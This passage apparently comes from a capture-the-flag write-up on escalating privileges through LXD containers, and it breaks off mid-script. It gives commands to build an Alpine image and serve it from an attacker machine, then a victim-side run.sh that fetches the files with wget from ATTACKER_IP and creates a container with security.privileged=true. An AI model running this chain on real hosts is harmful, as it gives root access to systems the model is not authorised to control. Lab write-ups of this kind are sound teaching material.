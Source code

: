 #### Exploit Building
On our machine we'll need to build some files which we'll 
upload to the server

```bash
#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

#Clone repo
git clone https://github.com/lxc/distrobuilder

#Make distrobuilder
cd distrobuilder
make

#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```

After building the files we should have the following

![lxd-files](/images/team/team-lxd-files.png)

We can rename the tar file to match the script and 
prepare to upload the files

```bash
# attacker machine
mv incus.tar.xz lxd.tar.xz
python3 -m http.server 80
```

Then I added the following to a file called
`run.sh` on the victim machine to escalate privileges

```bash
#!/bin/bash

# get the images
wget http://ATTACKER_IP/rootfs.squashfs
wget http://ATTACKER_IP/lxd.tar.xz

# add image
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true

# List containers
lxc list

# configure container
```